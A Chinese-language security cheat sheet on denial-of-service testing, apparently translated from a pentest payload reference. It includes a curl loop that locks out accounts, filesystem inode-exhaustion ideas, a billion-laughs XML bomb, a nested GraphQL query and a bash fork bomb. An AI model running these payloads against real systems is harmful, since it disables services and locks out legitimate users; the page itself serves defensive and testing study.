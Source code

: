 # 拒绝服务

> 拒绝服务（DoS）攻击旨在通过向服务发送大量非法请求或利用目标软件的漏洞使其崩溃或性能下降，从而导致服务不可用。在分布式拒绝服务（DDoS）中，攻击者使用多个来源（通常是被劫持的机器）同时执行攻击。

## 概要

* [方法论](#方法论)
    * [锁定客户账户](#锁定客户账户)
    * [文件系统上的文件限制](#文件系统上的文件限制)
    * [与技术相关的内存耗尽](#与技术相关的内存耗尽)
* [参考文献](#参考文献)

## 方法论

以下是拒绝服务（DoS）攻击的一些示例。这些示例应作为理解该概念的参考，但任何DoS测试都应谨慎进行，因为它可能会中断目标环境，并可能导致访问丢失或敏感数据暴露。

### 锁定客户账户

当测试客户账户时可能发生的拒绝服务示例。
请注意，这很可能是**超出范围**的，并且对业务可能有重大影响。

* 在账户在X次错误尝试后被临时/永久禁止时，多次尝试登录页面。

    ```ps1
    for i in {1..100}; do curl -X POST -d "username=user&password=wrong" <target_login_url>; done
    ```

### 文件系统上的文件限制

当进程在服务器上写入文件时，尝试达到文件系统格式允许的最大文件数。当达到限制时，系统应输出消息：`设备上没有空间`。

| 文件系统 | 最大Inodes数量 |
| --- | --- |
| BTRFS | 2^64（约18京） |
| EXT4 | 约40亿 |
| FAT32 | 约2.68亿个文件 |
| NTFS | 约42亿（MFT条目） |
| XFS | 动态（磁盘大小） |
| ZFS | 约281万亿 |

这种技术的另一种方式是填充应用程序使用的文件，直到达到文件系统的最大允许大小，例如这可能发生在SQLite数据库或日志文件中。

FAT32有显著的**4GB**限制，这就是为什么它经常被exFAT或NTFS取代以支持更大的文件。

现代文件系统如BTRFS、ZFS和XFS支持EB级规模的文件，远远超过当前的存储容量，使其成为大型数据集的未来保障。

### 与技术相关的内存耗尽

根据网站所使用的技术，攻击者可能有能力触发特定的功能或范式，从而消耗大量的内存。

* **XML外部实体**：Billion laughs攻击/XML炸弹

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```

* **GraphQL**：深度嵌套的GraphQL查询。

    ```ps1
    query { 
        repository(owner:"rails", name:"rails") {
            assignableUsers (first: 100) {
                nodes {
                    repositories (first: 100) {
                        nodes {
                            
                        }
                    }
                }
            }
        }
    }
    ```

* **图像缩放**：尝试发送带有修改过的头的无效图片，例如异常尺寸、大像素数。
* **SVG处理**：SVG文件格式基于XML，尝试Billion laughs攻击。
* **正则表达式**：ReDoS
* **Fork Bomb**：在循环中快速创建新进程，消耗系统资源，直到机器变得无响应。

    ```ps1
    :(){ :|:& };:
    ```

## 参考文献

* [DEF CON 32 - 实用的Bug赏金中的DoS利用 - Roni Lupin Carta - 2024年10月16日](https://youtu.be/b7WlUofPJpU)
* [拒绝服务速查表 - OWASP速查表系列 - 2019年7月16日](https://cheatsheetseries.owasp.org/cheatsheets/Denial_of_Service_Cheat_Sheet.html)